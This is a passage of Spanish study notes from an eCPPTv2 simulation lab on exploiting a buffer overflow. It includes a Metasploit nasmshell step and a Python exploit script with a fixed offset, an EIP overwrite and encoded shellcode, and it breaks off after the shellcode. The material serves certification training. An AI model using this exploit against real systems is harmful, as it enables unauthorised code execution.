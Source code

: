 Se obtendrá la instrucción que hace esto con el nasmshell de metasploit.

```bash
usr/share/metasploit-framework/tools/exploit/nasmshell.rb

# En la consola del nasm: sub esp,0x10
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 149.png)

Esta instrucción se debe insertar antes del shellcode con la forma: “\x83\xEC\x10”.

El script es el siguiente.

- Script
    
    ```bash
    #!/usr/bin/python3
    
    import socket
    import sys
    from struct import pack
    
    # Variables de entorno
    ip_address = "192.168.0.105"
    port = 9999
    offset = 524
    
    # DAtos a enviar
    before_eip = b"A"*offset
    eip = pack("<L", 0x311712f3)
    shellcode = (b"\xdb\xc7\xd9\x74\x24\xf4\xbf\xde\x6b\x7a\x5c\x5b\x29\xc9"
    b"\xb1\x52\x83\xc3\x04\x31\x7b\x13\x03\xa5\x78\x98\xa9\xa5"
    b"\x97\xde\x52\x55\x68\xbf\xdb\xb0\x59\xff\xb8\xb1\xca\xcf"
    b"\xcb\x97\xe6\xa4\x9e\x03\x7c\xc8\x36\x24\x35\x67\x61\x0b"
    b"\xc6\xd4\x51\x0a\x44\x27\x86\xec\x75\xe8\xdb\xed\xb2\x15"
    b"\x11\xbf\x6b\x51\x84\x2f\x1f\x2f\x15\xc4\x53\xa1\x1d\x39"
    b"\x23\xc0\x0c\xec\x3f\x9b\x8e\x0f\x93\x97\x86\x17\xf0\x92"
    b"\x51\xac\xc2\x69\x60\x64\x1b\x91\xcf\x49\x93\x60\x11\x8e"
    b"\x14\x9b\x64\xe6\x66\x26\x7f\x3d\x14\xfc\x0a\xa5\xbe\x77"
    b"\xac\x01\x3e\x5b\x2b\xc2\x4c\x10\x3f\x8c\x50\xa7\xec\xa7"
    b"\x6d\x2c\x13\x67\xe4\x76\x30\xa3\xac\x2d\x59\xf2\x08\x83"
    b"\x66\xe4\xf2\x7c\xc3\x6f\x1e\x68\x7e\x32\x77\x5d\xb3\xcc"
    b"\x87\xc9\xc4\xbf\xb5\x56\x7f\x57\xf6\x1f\x59\xa0\xf9\x35"
    b"\x1d\x3e\x04\xb6\x5e\x17\xc3\xe2\x0e\x0f\xe2\x8a\xc4\xcf"
    b"\x0b\x5f\x4a\x9f\xa3\x30\x2b\x4f\x04\xe1\xc3\x85\x8b\xde"
    b"\xf4\xa6\x41\x77\x9e\x5d\x02\xb8\xf7\x5d\xb7\x50\x0a\x5d"
    b"\x29\xc0\x83\xbb\x3f\x12\xc2\x14\xa8\x8b\x4f\xee\x49\x53"
    b"\x5a\x8b\x4a\xdf\x69\x6c\x04\x28\x07\x7e\xf1\xd8\x52\xdc"
    b"\x54\xe6\x48\x48\x3a\x75\x17\x88\x35\x66\x80\xdf\x12\x58"
    b"\xd9\xb5\x8e\xc3\x73\xab\x52\x95\xbc\x6f\x89\x66\x42\x6e"
    b"\x5c\xd2\x60\x60\x98\xdb\x2c\xd4\x74\x8a\xfa\x82\x32\x64"
    b"\x4d\x7c\xed\xdb\x07\xe8\x68\x10\x98\x6e\x75\x7d\x6e\x8e"
    b"\xc4\x28\x37\xb1\xe9\xbc\xbf\xca\x17\x5d\x3f\x01\x9c\x7d"
    b"\xa2\x83\xe9\x15\x7b\x46\x50\x78\x7c\xbd\x97\x85\xff\x37"
    b"\x68\x72\x1f\x32\x6d\x3e\xa7\xaf\x1f\x2f\x42\xcf\x8c\x50"
    b"\x47")
    